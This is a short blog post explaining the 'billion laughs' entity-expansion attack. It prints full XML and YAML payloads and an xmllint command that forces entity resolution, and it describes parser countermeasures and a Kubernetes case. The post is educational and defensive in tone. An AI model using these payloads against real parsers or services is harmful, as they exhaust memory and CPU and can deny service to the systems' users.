 ```yaml
---
layout: post
title: Billion Laughs Attack examples
date: 2020-12-03 08:37:49
---
```

![lololol](/assets/images/3ujp7rhznmid96gfxl5y.gif)

[Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack) are a type of **DDoS attack** :skull:, initially targetting the **XML** documents and parsers.

## XML lol will make you cry
This is the most common example of **XML Billions Laughs Attack** :

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 <!ENTITY lolz "&lol9;">
]>
<root>&lolz;</root>
```

This attack is well known and several countermeasures are in place in parsers.

If you check one major **XML parsing library**, `libxml` (and by extension `xmllint`) is obviously not longer sensitive to this threat.

First there is check for reference loops so `xmllint` will return you an error:

```
Entity: line 1: parser error : Detected an entity reference loop
```

Second, the `resolving of entities` was years ago disabled by default.

But if you want to try, you can do something like (force dangerous mode explicitely with `--noent`):

```bash
xmllint lolz.xml --noent
```

(with a reduced set of entities to bypass the reference loop)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lolz "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
]>
<root>lollollollollollollollollollol</root>
```


## YAML laughs out loud
`XML` is not the only language impacted by this problem, 
every markup language with reference support is sensitive the same way to this potential DDoS attack.

There is a "billion laughs attack' in YAML :

```yaml
lol1: &lol1 ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
lol2: &lol2 [*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1,*lol1]
lol3: &lol3 [*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2,*lol2]
lol4: &lol4 [*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3,*lol3]
lol5: &lol5 [*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4,*lol4]
lol6: &lol6 [*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5,*lol5]
lol7: &lol7 [*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6,*lol6]
lol8: &lol8 [*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7,*lol7]
lol9: &lol9 [*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8,*lol8]
lolz: &lolz [*lol9]
```

And for the anecdote, **Kubernetes** was very recently [impacted by this](https://github.com/kubernetes/kubernetes/issues/83253) !

## Details
What is the problem with this exactly ? 

I mean, whatever the language you could produce malicious (or dumb) code that will consume all stack, memory, resources...

The problem here is that XML and YAML are formats intended to store datas but with **programming capabilities** (the references).

Everybody agree that if you let an user enter some python code to be executed as is on server side, it is dangerous. But when it comes to process XML or YAML, processing (parsing) seems "safe" where it is sometimes not.

The threat then comes that we seems to exchange inoffensive data where user can actually hide function calls (and system reads ! but we do not discussed XXE attacks :smile:).


